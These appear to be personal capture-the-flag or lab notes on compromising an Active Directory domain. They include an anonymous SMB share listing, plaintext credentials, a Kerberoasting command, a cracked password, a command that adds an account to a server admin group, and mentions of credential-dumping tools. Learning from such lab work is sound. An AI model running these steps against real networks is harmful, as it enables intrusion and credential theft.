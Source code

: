 
Known IPs

> [! hint] **20.123.168.127**
> servername pastelariaOPO
> List of Shares:
> └─$ smbclient  -N -L \\\\20.123.168.127    
>
>      Sharename       Type      Comment
>        
>        ADMIN$          Disk      Remote Admin
>        C$              Disk      Default share
>        CorpScripts     Disk      
>        D$              Disk      Default share
>        IPC$            IPC       Remote IPC
 >       Users           Disk      
>
> Share CorpScripts is open and has users/passwords for SSH
>
> pastel.atum::AOlJozazuFOy2zALp0T
> a flag is in C:\user.txt 
> :D








**13.95.153.123**
server name:  adVM
 - open ports: 
	 - 445 - Commonly used for Microsoft DS ?
	 - 53 - Common for DNS
	 - 3389 . common for terminal server ?
 

**AD**
domain name -> oporissol.corp

bloodhound maps out the AD network
impacket-getuserspn gets the bolo.iogurte password hash

┌──(kali㉿lahabrea)-[~]
└─$ proxychains impacket-GetUserSPNs oporissol.corp/pastel.atum -dc-ip 10.0.0.4 -outputfile results.txt 

cracked with hashcat
sousou1235!@#%
add ourselves to server.admins

oporissol\bolo.iogurte@PASTELARIAOPO C:\Users\bolo.iogurte>net group "ServerAdmins" pastel
.atum /ADD /domain
The request will be processed at a domain controller for domain oporissol.corp.



![[Pasted image 20230603123316.png]]


crackmapexec
lsassy

![[Pasted image 20230603124147.png]]

![[Pasted image 20230603130453.png]]

sundatabase -> tool to dump all user passwords as domain controller (sumdatabase?)